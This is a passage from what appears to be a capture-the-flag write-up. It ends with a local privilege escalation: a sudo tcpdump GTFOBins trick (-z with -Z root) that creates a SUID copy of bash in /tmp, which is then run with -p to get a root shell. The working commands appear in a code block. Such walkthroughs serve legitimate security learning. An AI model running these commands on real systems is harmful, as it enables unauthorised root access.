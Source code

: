 ![captionless image](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*l_Vj04nsQp4xgp4qOiOcSA.png)

  

28. It’s time to visit my favorite [gtfo bin](https://gtfobins.github.io).

  

29. Searching for ‘tcpdump’ in gtfo bin gave us this.

  

![captionless image](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*c5_BgoGvbK7Ty53cwpypXw.png)

  

30. Let’s craft our own malicious command though this method.

  

31. First, copy /bin/bash to the /tmp folder and set the SUID bit to grant root privileges when executed.

  

```

COMMAND='cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash'

TF=$(mktemp)

echo "$COMMAND" > $TF

chmod +x $TF

sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF -Z root

```

![captionless image](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*zUERFJYeGq7pGwQd-wNE2g.png)

  

32. Now We will have our bash file in the tmp directory. Just run it with the ‘-p’ flag to get root.

  

> In the context of privilege escalation, when you execute `/bin/bash -p`, it ensures that the environment is maintained as is, allowing you to retain the necessary permissions and variables that might be important for executing further commands as root. Without the `-p` flag, some important environment variables might be reset, potentially interfering with the exploitation process.

  

![captionless image](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*AeOv6X1pL-RuZSBk_8wQWA.png)

  

Now, We are ROOT! Thanks for Reading. Happy hacking!!